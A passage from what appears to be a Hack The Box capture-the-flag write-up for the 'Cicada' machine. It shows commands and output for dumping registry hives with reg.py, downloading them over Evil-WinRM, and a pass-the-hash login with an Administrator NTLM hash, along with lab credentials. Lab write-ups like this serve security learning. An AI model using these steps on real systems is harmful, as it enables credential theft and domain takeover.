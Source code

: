 I’ll give that a run. `reg.py` will write to an SMB share I create, but it’s *so* slow, and almost always times out. I’m not sure if that’s `reg.py`, `smbserver.py`, and an issue with the HTB VPN.

Still I could use `reg.py` to make copies of the registry hives:

```

oxdf@hacky$ reg.py 'cicada.htb/emily.oscars:Q!3@Lp#M6b*7t*Vt'@10.10.11.35 backup -o 'C:\windows\temp\'
Impacket v0.13.0.dev0+20241024.90011.835e1755 - Copyright Fortra, LLC and its affiliated companies 

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to C:\windows\temp\\SAM.save
[*] Saved HKLM\SYSTEM to C:\windows\temp\\SYSTEM.save
[*] Saved HKLM\SECURITY to C:\windows\temp\\SECURITY.save

```

And then Download them over EvilWinRM:

```
*Evil-WinRM* PS C:\windows\temp> download SYSTEM.save
                                        
Info: Downloading C:\windows\temp\SYSTEM.save to SYSTEM.save
                                        
Info: Download successful!
*Evil-WinRM* PS C:\windows\temp> download SAM.save
                                        
Info: Downloading C:\windows\temp\SAM.save to SAM.save
                                        
Info: Download successful!
*Evil-WinRM* PS C:\windows\temp> download SECURITY.save
                                        
Info: Downloading C:\windows\temp\SECURITY.save to SECURITY.save
                                        
Info: Download successful!

```

I can dump these with `secretsdump.py` just like above.

### Shell

#### Validate Hash

The Administrator hash works!

```

oxdf@hacky$ netexec smb CICADA-DC -u administrator -H aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\administrator:2b87e7c93a3e8a0ea4a581937016f341 (Pwn3d!)

```

